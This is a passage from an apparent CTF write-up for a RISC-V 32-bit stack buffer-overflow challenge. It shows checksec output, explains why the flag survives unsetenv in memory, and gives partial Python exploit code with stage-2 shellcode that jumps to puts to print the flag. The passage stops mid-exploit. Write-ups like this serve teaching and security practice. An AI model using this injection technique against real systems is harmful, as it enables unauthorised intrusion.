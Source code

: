 ```asm
 
 lw	a0,-16(s0)
 lw	ra,12(sp)
 lw	s0,8(sp)
 addi	sp,sp,16
 ret
```

### Other

* [**RISC-V Assembly Programmer's Manual**](https://github.com/riscv-non-isa/riscv-asm-manual/blob/master/riscv-asm.md#load-and-store-global) - Very good resource.
* [RISC-V instruction set cheatsheet](https://mark.theis.site/riscv/)
* [RISC-V instruction set reference](https://msyksphinz-self.github.io/riscv-isadoc/html/index.html)
* [Pseudo-instructions](https://github.com/riscv-non-isa/riscv-asm-manual/blob/master/riscv-asm.md#-a-listing-of-standard-risc-v-pseudoinstructions)
* [Assembler directives](https://github.com/riscv-non-isa/riscv-asm-manual/blob/master/riscv-asm.md#-a-listing-of-standard-risc-v-pseudoinstructions)
* [Relative/Absolute addressing, labels, GOT accessing](https://github.com/riscv-non-isa/riscv-asm-manual/blob/master/riscv-asm.md#labels)
* [Load & Store](https://github.com/riscv-non-isa/riscv-asm-manual/blob/master/riscv-asm.md#load-and-store-global)

## Solution

So, we have a buffer overflow and we know our architecture. Let's start out exploitation!

```bash
nikos@ctf-box:~$ checksec --file=./smash-baby
[*] '~/smash-baby'
    Arch:     riscv-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000)
    RWX:      Has RWX segments
```

It has RWX stack. Great! We can simply inject our shell code into the vulnerable buffer and then jump to it. Our shellcode will be simple, it will just do a `puts(flag)`. The `unsetenv("FLAG")` function simply unsets the environment variable. However, it does **not** erase the memory. It simply shifts the all the elements in the `char *environ[]` array to the left by 1 ([setenv.c#264](https://codebrowser.dev/glibc/glibc/stdlib/setenv.c.html#264)). Since we have the stack leak `&env_flag`, we can simply find this address by adding/subtracting some offsets. Also, since the binary is not PIE, the address of `puts` is constant.

So, here is our exploit:

```python
stage2 = asm('''
    /*a1 is a stack ptr. A little further down there is another stack ptr pointing to the flag */
    lw      a0, 116(a1)
    /* ra points to the beginning of stage2. 
     * Further the buffer we have stored the puts address.
     * Load it into ra
     */
    addi    ra, ra, 40
    lw      ra, 0(ra)

    /* jal to puts */
    ret
''')
stage2 = stage2 + b'B'*(36-len(stage2))
assert(len(stage2) == 36)
```